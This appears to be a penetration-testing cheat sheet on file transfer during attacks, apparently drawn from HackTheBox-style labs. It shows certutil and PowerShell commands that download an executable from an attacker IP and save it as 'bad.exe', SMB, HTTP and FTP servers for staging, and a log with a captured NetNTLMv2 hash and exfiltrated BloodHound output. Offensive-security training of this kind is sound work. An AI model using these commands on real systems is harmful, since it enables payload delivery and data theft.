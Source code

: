 - [Windows File Transfer](#windows-file-transfer)
	- [Certutil](#certutil)
- [Linux File Transfer](#linux-file-transfer)
	- [impacket-smbserver](#impacket-smbserver)
	- [HTTP](#http)
	- [FTP](#ftp)
		- [pyftpdlib](#pyftpdlib)
- [SSH/SCP](#sshscp)


# Windows File Transfer
## Certutil
### [Downloading Files with Certutil](https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil)
```sh
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
certutil -urlcache -f http://10.0.0.5/40564.exe bad.exe

$ip = '10.10.14.5'
certutil -urlcache -f http://$ip/40564.exe bad.exe
```
(New-Object Net.WebClient).DownloadFile('http://$ip/taskkill.exe','C:\Windows\Temp\taskkill.exe')


# Linux File Transfer
## impacket-smbserver
### [SMB](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
### On Server Side (Kali)
```sh
smbserver.py share . -smb2support
smbserver.py share . -smb2support -username root -password toor
impacket-smbserver share . -smb2support -username root -password toor
impacket-smbserver share . -smb2support -username root -password toor -ip 10.1.1.1
```

```sh
$ impacket-smbserver share .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

### On Client Side
```sh
C:\Users\bitbucket\Downloads>net use \\10.1.1.1\share
Enter the user name for '10.1.1.1': root
Enter the password for 10.1.1.1: toor
The command completed successfully.
```

```sh
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>copy acls.csv \\10.1.1.1\share
        1 file(s) copied.
```

### On Server Side (Kali), received the file
```sh
[*] Incoming connection (10.10.10.77,52853)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User REEL\tom authenticated successfully
[*] tom::HTB:aaaaaaaaaaaaaaaa:ce35716473cdd23a96f36ceb04c047b7:01010000000000008001dda490e0d90110624f8984ad10560000000001001000410070004900720061006c006700690003001000410070004900720061006c00670069000200100044005400690049006800610071006f000400100044005400690049006800610071006f00070008008001dda490e0d90106000400020000000800300030000000000000000000000000300000af600118190f818eb191529b8de7b91c47aaab8e73855d44e95d1b6e27fd549f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Closing down connection (10.10.10.77,52853)
[*] Remaining connections []

Ctrl + C

$ ls -lh acls.csv                         
-rwxr-xr-x 1 kali kali 110K Jan  1  1970 acls.csv
```

## [HTTP](#http-1)
```sh
python -m http.server
python -m http.server 80
python -m http.server 80 -b 10.1.1.10
```

## [FTP](#ftp-1)
### [pyftpdlib](#pyftpdlib-1)
```sh
pip install pyftpdlib
python -m pyftpdlib -p 21
```

### On Client Side
Use explorer, browser, or cmd
```sh
PS C:\> ftp 10.1.1.1
Connected to 10.1.1.1.
220 pyftpdlib 1.5.9 ready.
530 Log in with USER and PASS first.
User (10.1.1.1:(none)): anonymous
331 Username ok, send password.
Password:
230 Login successful.
ftp> ls
```

# SSH/SCP
### 
```sh
$ ssh -i alice.pem alice1978@$t ls
lin.txt

$ scp -i alice.pem alice1978@$t:~/lin.txt .
lin.txt          100%   59KB 429.8KB/s   00:00
```

### 
```sh

```

### 
```sh

```